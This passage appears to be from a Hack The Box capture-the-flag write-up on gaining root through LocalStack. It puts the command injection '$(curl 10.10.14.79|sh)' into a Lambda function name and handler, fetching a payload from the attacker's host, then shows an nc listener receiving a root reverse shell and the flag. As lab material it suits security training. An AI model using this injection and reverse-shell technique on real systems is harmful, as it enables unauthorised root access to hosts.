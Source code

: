 We can also identify the commands run on the machine as root via uploading pspy64 at https://github.com/DominicBreuker/pspy .
```text
2023/07/17 16:48:51 CMD: UID=0     PID=49784  | /opt/code/localstack/.venv/bin/python /opt/code/localstack/.venv/bin/aws --endpoint-url=http://localhost:4566 lambda list-event-source-mappings --function-name example 
```

Now lets do another command injection payload, either make bash SUID, reverse shell back, etc. Many options. Here is what I did:
```sh
$ aws lambda create-function --function-name 'rce$(curl 10.10.14.79|sh)' --zip-file fileb://example.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://localhost:4566  --handler '$(curl 10.10.14.79|sh)' --runtime nodejs12.x
{
    "FunctionName": "rce$(curl 10.10.14.79|sh)",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:rce$(curl 10.10.14.79|sh)",
    "Runtime": "nodejs12.x",
    "Role": "arn:aws:iam::123456789012:role/lambda-role",
    "Handler": "$(curl 10.10.14.79|sh)",
    "CodeSize": 295,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2023-07-17T16:47:08.430+0000",
    "CodeSha256": "Kgo1bpwoy8e0gJDdNF50pEELqD00ItnsKYonXf45tM8=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "804e01a6-f18c-402c-a8ce-973f7dc35eec",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}
$ aws lambda invoke --function-name 'rce' --endpoint-url http://localhost:4566 out.json
```

Reverse shell as root returned and we can read the root flag!
```sh
$ nc -nlvp 4444
Ncat: Version 7.94 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.229.92:41486.
bash: cannot set terminal process group (-1): Not a tty
bash: no job control in this shell
bash-5.0# cat /root/flag.txt
HTB{cl0ud_ch41ns_3m1t_p0w3r}
```

Flag: `HTB{cl0ud_ch41ns_3m1t_p0w3r}`
